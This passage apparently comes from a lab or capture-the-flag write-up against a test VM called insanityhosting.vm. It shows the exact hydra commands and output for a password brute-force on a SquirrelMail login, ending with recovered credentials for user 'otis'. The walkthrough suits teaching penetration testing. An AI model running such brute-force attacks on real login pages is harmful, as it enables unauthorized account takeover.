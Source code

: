 If I try this on the SquirrelMail login page, a failed login responds with "ERROR: Unknown user or password incorrect", which is something to work with:

![13](screenshots/13.png)

I'll use `hydra` to brute force the password in the SquirrelMail login screen. Importantly, if I use "ERROR" as the indication that the login failed, I do not find the password. If I use "Unknown user or password incorrect", then it works:
```bash
# using "ERROR"
$ hydra -l otis -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt insanityhosting.vm http-post-form '/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Error'
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-21 11:16:45
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking http-post-form://insanityhosting.vm:80/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Error
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 28 to do in 00:01h, 16 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-21 11:18:36

# using "Unknown user or password incorrect"
$ hydra -l otis -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt insanityhosting.vm http-post-form '/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect'
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-21 11:19:00
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking http-post-form://insanityhosting.vm:80/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect
[80][http-post-form] host: insanityhosting.vm   login: otis   password: 123456
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-21 11:19:08
```
